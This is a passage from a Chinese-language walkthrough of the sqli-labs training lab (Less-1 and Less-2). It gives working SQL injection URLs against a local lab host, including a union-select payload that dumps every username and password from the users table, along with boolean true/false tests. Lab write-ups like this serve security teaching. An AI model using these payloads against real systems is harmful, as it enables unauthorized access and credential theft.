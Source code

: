 通过改变limit后面第1个【1】，可以查看数据库中的账号和密码

![image-20211211133629386](https://gitee.com/xxb667/img/raw/master/img/image-20211211133629386.png)

#### 直接获得所有账户和密码

```
http://192.168.81.135/sqli/Less-1/?id=-1' union select 1,2,group_concat(concat_ws('0x7e',username,password)) from security.users --+
```

![image-20211211133850402](https://gitee.com/xxb667/img/raw/master/img/image-20211211133850402.png)

### 注意

以上所有操作均可在MySQL数据库中进行，

数据库代码可以查看黄体字所示

## Less-2--布尔型注入

同Less-1加入配置信息后，可以显示sql语句

验证

### id值的不同

可以看到sql语句中的

id=1

而在Less-1中的id值为：id="1"

```
http://192.168.81.135/sqli/Less-2/?id=1--+
```

![image-20211211105212782](https://gitee.com/xxb667/img/raw/master/img/image-20211211105212782.png)

由上面可知，我们不需要在id值后加入单引号首先，注入语句

```
http://192.168.81.135/sqli/Less-2/?id=1 and 1=1 --+
```

正常显示

![image-20211211100015250](https://gitee.com/xxb667/img/raw/master/img/image-20211211100015250.png)



当把1=1改为1=2时，不显示内容也不提示错误

```
http://192.168.81.135/sqli/Less-2/?id=1 and 1=2 --+
```

![image-20211211100151201](https://gitee.com/xxb667/img/raw/master/img/image-20211211100151201.png)

